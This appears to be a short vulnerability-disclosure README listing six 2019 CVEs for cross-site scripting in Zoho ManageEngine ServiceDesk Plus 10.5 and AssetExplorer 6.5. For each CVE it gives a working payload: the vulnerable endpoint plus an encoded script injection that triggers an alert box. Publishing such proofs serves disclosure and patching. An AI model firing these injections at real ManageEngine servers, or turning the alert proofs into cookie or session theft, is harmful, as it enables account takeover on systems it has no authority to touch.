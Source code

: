 # Zoho-ManageEngine-XSS

Zoho ManageEngine ServiceDesk Plus and AssetExplorer XSS Vulnerability

**Researcher: Enter of The Tarantula Team, VinCSS (a member of Vingroup)**
 
# CVE-2019-12539 

Zoho ManageEngine ServiceDesk Plus 10.5 XSS vulnerability

Payload: domain.com/SearchN.do Send Post searchText=%27%3E%3Csvg+onload%3Dalert%28%27xss%27%29%3E&subModSelText=&selectName=Purchase&selectName=Purchase&selectedName=Purchase&submitbutton=GO
 

# CVE-2019-12540 

Zoho ManageEngine ServiceDesk Plus 10.5 XSS vulnerability

Payload: domain.com/WorkOrder.do?woMode=viewWO5%27%3balert(%27XSS%27)%2f%2f
 

# CVE-2019-12595 

Zoho ManageEngine AssetExplorer 6.5 XSS vulnerability

Payload: domain.com/RCSettings.do?rdsName=Windows%20Remote%20Desktop%00zc6p3%3Cimg%20src%3da%20onerror%3dalert(%27XSS%27)%3Ekgo&description=This+tool+uses+the+windows+utility+%27mstsc%27+to+take+remote+and+it+is+available+by+default+in+windows+machines.&OS_COMMAND_1=mstsc+%2Fv%3A%24DEVICENAME&OS_TARGET_1_1=1&OS_COMMAND_2=&saveRds=Save&rdsId=2 
 

# CVE-2019-12596

Zoho ManageEngine AssetExplorer 6.5 XSS vulnerability

Payload: domain.com/SoftwareListView.do?softwareManufacturer=-1&site=-1&swType=488529);alert(%27XSS%27)%2f%2f298&swComplianceType=0&fromSoftwareHome=true&showZeroCount=false
 
# CVE-2019-12597

Zoho ManageEngine AssetExplorer 6.5 XSS vulnerability 

Payload: domain.com/asset/ResourcesAttachments.jsp?type=new&wsID=87&date=1559400074944&pageName=a%22%3E%3Cimg%20src%3da%20onerror%3dalert(%27XSS%27)%3E

# CVE-2019-12537 

Zoho ManageEngine AssetExplorer 6.5 XSS vulnerability 

Payload: domain/SearchN.do 
Send Post :selectName=Purchase&searchText=%27%3E%3Csvg+onload%3Dalert%28%27xss%27%29%3E&submitbutton=%C2%A0

 
